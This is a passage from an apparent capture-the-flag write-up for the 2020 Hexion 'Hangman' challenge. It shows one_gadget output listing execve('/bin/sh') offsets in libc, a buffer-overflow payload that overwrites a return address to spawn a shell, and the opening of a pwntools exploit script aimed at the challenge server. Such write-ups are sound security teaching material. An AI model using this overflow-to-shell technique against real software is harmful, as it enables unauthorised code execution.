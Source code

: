 finally we can check the offset for a `one gadget` using the `onegadget` tool:
```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_hexion/Hangman_DONE$ one_gadget /lib/x86_64-linux-gnu/libc-2.27.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

To find out which will be good for us we can put a breakpoint right before the exit of `gameLoop` becuase thats the function rip's we will overwrite and check the constraints

Now we can overflow and jump to one gadget :)
```python
one_gadget_offset = 0x10a38c
payload = 'A' * overflow_offset + p64(libc.address + one_gadget_offset)
guess_word(payload)

sh.interactive()
```
Thats the final exploit: 
```python
from pwn import *
import sys

context.clear(os='linux', arch='amd64')
# context.log_level='debug'

__author__ = 'yuvaly0'

argv = sys.argv
binary_path = './hangman'
REMOTE = False
DEBUG = False

if len(argv) > 1:
	if argv[1] == 'remote':
		REMOTE = True
	if argv[1] == 'debug':
		DEBUG = True

if REMOTE:
	sh = remote('challenges1.hexionteam.com', 3000)
else:
	sh = process([binary_path])

libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')


if DEBUG:
	gdb.attach(sh, '''
		b* gameLoop+494
		c
		''')

e = ELF(binary_path)
```